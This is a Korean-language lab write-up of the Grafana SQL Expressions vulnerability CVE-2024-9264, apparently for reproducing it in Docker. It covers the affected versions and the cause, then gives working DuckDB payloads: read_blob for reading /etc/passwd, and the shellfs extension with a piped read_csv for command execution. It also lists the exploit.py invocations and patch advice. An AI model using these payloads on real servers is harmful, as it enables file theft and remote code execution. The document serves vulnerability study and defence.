




# Grafana SQL Expressions 원격 코드 실행 취약점 (CVE-2024-9264)

**Contributors**

-   [Dohyun(@no-carve-only-pizza)](https://github.com/no-carve-only-pizza)

<br/>

## 1. 요약

Grafana는 대시보드와 모니터링 시각화를 제공하는 오픈소스 웹 애플리케이션이다. CVE-2024-9264는 Grafana의 SQL Expressions 기능에서 DuckDB SQL 표현식을 검증하는 과정이 충분하지 않아 발생한 취약점이다.

공격자는 Viewer 이상의 계정으로 `/api/ds/query` 엔드포인트에 조작된 SQL Expression을 전송할 수 있다. 취약한 환경에 DuckDB 바이너리가 존재하면 `read_blob()`을 이용한 임의 파일 읽기가 가능하며, Grafana 11.0.0 환경에서는 DuckDB `shellfs` 확장을 이용해 명령 실행까지 이어질 수 있다.

- 취약 버전: Grafana 11.0.0 ~ 11.0.5, 11.1.0 ~ 11.1.6, 11.2.0 ~ 11.2.1
- 실습 버전: Grafana 11.0.0
- 위험도: Critical, CVSS v3.1 9.9
- 영향: 인증된 사용자의 임의 파일 읽기 및 원격 코드 실행
- 필요 조건: Viewer 이상 권한의 Grafana 계정, Grafana 프로세스 PATH 내 DuckDB 바이너리

참고 자료:

- <https://grafana.com/security/security-advisories/cve-2024-9264/>
- <https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/>
- <https://github.com/vulhub/vulhub/tree/master/grafana/CVE-2024-9264>

<br/>

## 2. 환경 구성

다음 명령으로 Grafana 11.0.0 취약 환경을 실행한다.

```bash
docker compose up -d
```

컨테이너가 실행되면 `http://localhost:3000`으로 접속할 수 있다. 기본 계정은 다음과 같다.

```text
ID: admin
PW: admin
```

실행 상태는 아래 명령으로 확인한다.

```bash
docker compose ps
```



만약 로컬에서 3000 포트를 이미 사용 중이라면 아래처럼 호스트 포트만 변경해 실행한다. 컨테이너 내부 포트는 그대로 3000을 사용하므로 취약 환경 자체는 동일하다.

```bash
GRAFANA_PORT=3001 docker compose up -d
python3 exploit.py -u http://localhost:3001 --mode file-read --file /etc/passwd
```

Grafana가 정상 실행되면 로그인 페이지는 HTTP 200을 반환하고, 기본 계정으로 `/api/health`를 조회할 수 있다.



<br/>

## 3. 취약점 분석

이 디렉터리의 `exploit.py`는 Python 표준 라이브러리만 사용한다. 별도의 `pip install` 없이 실행할 수 있다.
PoC는 Grafana의 SQL Expressions API인 `/api/ds/query?ds_type=__expr__&expression=true`로 조작된 SQL을 전송한다.

- 파일 읽기 PoC: `SELECT content FROM read_blob('/etc/passwd')`
- RCE PoC: `INSTALL shellfs FROM community`, `LOAD shellfs`, `read_csv('id > /tmp/rce_out 2>&1 |', header=false)`, `read_blob('/tmp/rce_out')`

Grafana의 SQL Expressions 기능은 여러 데이터 소스의 결과를 SQL로 후처리하기 위해 DuckDB를 사용한다. 취약 버전에서는 SQL Expressions API가 입력 SQL을 충분히 제한하지 못해 사용자가 DuckDB의 파일 접근 기능을 호출할 수 있다.

파일 읽기 단계에서는 `read_blob('/etc/passwd')`가 서버 파일을 바이너리 데이터로 읽어 응답에 포함한다. 명령 실행 단계에서는 DuckDB의 `shellfs` community extension을 설치 및 로드하고, Unix pipe 문법을 지원하는 `read_csv()` 호출을 통해 쉘 명령을 실행한다. 이후 `/tmp/rce_out` 파일을 다시 `read_blob()`으로 읽어 명령 실행 결과를 확인한다.

<br/>

## 4. 재현 절차

### 4.1 임의 파일 읽기

아래 명령은 DuckDB `read_blob()` 함수로 컨테이너 내부의 `/etc/passwd` 파일을 읽는다.

```bash
python3 exploit.py --mode file-read --file /etc/passwd
```

### 4.2 원격 코드 실행

아래 명령은 DuckDB `shellfs` 확장을 로드한 뒤 `id` 명령을 실행하고, 실행 결과를 `/tmp/rce_out`에 저장한 뒤 다시 읽어온다.

```bash
python3 exploit.py --mode rce -c id
```

<br/>

## 5. 실행 결과

파일 읽기 PoC가 성공하면 응답에 `root:x:0:0:root:/root:/bin/bash`와 같은 `/etc/passwd` 내용이 포함된다.



RCE PoC가 성공하면 `uid=472(grafana)` 형태의 명령 실행 결과가 출력된다.



<br/>

## 6. 대응 방안

- Grafana를 보안 패치가 포함된 버전으로 업데이트한다.
  - 보안 전용 패치: 11.0.5+security-01, 11.1.6+security-01, 11.2.1+security-01 이상
  - 일반 릴리스 사용 시: 11.0.6, 11.1.7, 11.2.2 이상
- SQL Expressions 기능이 필요하지 않다면 비활성화한다.
- Grafana 계정 권한을 최소화하고, Viewer 계정도 신뢰된 사용자에게만 부여한다.
- Grafana 컨테이너 이미지에 불필요한 실행 파일과 확장 기능을 포함하지 않는다.
- 외부 네트워크에서 관리 UI에 직접 접근하지 못하도록 방화벽, VPN, 인증 프록시를 적용한다.
